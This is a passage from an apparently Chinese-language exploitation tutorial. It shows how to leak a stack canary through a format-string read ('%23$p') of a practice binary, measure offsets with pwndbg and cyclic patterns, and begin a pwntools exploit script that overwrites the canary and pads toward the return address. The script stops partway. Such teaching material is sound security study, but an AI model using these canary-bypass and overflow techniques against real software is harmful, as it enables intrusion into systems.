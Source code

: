 现在剩下的就是计算出 Canary 之前的偏移量，然后计算出 Canary 之后到返回地址的偏移量。

```
$ pwndbg vuln-32
$ b *0x080491d7
$ r
Leak me
%23$p

Breakpoint 1, 0x080491d7 in vuln ()
[...]
$ x/24wx $esp
0xffffd6e0:	0xffffd6fc	0x00000001	0xf7ffda20	0x0804919e
0xffffd6f0:	0x00000000	0xffffd9ab	0x00000002	0x24333225
0xffffd700:	0xf7ff0070	0x00000028	0x00000000	0xffffdfcd
0xffffd710:	0xf7fc6570	0xf7fc6000	0x00000000	0x00000000
0xffffd720:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd730:	0xffffffff	0xf7c0c850	0xf7fc0380	0xf5dafb00
```

我们看到 Canary 位于 `0xffffd73c` 。稍后，假设返回地址位于 `0xffffd74c` 。让我们
在下一个 `gets()` 之后中断并检查我们用什么值覆盖它。

```
$ b *0x0804920f
$ c
Continuing.
0x915d8a00
Overflow me
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

Breakpoint 2, 0x0804920f in vuln ()
[...]
$ x/20wx 0xffffd73c
0xffffd73c:	0x61616171	0x61616172	0x61616173	0x61616174
0xffffd74c:	0x61616175	0x61616176	0x61616177	0x61616178
```

现在，我们可以检查 Canary 和 EIP 偏移量：

```
$ cyclic -l 0x61616171
Finding cyclic pattern of 4 bytes: b'qaaa' (hex: 0x71616161)
Found at offset 64
$ cyclic -l 0x61616175
Finding cyclic pattern of 4 bytes: b'uaaa' (hex: 0x75616161)
Found at offset 80
```

返回地址是 Canary 开始后的 16 个字节，因此是 Canary 后的 12 个字节。

```python {title="exp.py"}
from pwn import *

context.log_level = 'debug'

p = process('./vuln-32')

log.info(p.clean())
p.sendline('%23$p')

canary = int(p.recvline(), 16)
log.success(f'Canary: {hex(canary)}')

payload = b'A' * 64
payload += p32(canary)  # 用 Canary 值覆盖 Canary 以不触发检测
payload += b'A' * 12    # Padding 到返回地址
```